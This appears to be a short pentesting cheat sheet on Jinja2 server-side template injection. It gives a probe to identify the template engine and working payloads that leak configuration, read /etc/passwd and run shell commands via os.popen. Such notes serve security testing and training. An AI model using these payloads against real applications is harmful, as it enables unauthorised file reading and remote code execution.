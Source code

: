____

![[Pasted image 20241004110914.png]]

`{{7*'7'}}`. The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`.

# Jinja2

## Information Disclosure

```jinja2
{{ config.items() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

## LFI

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## RCE

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

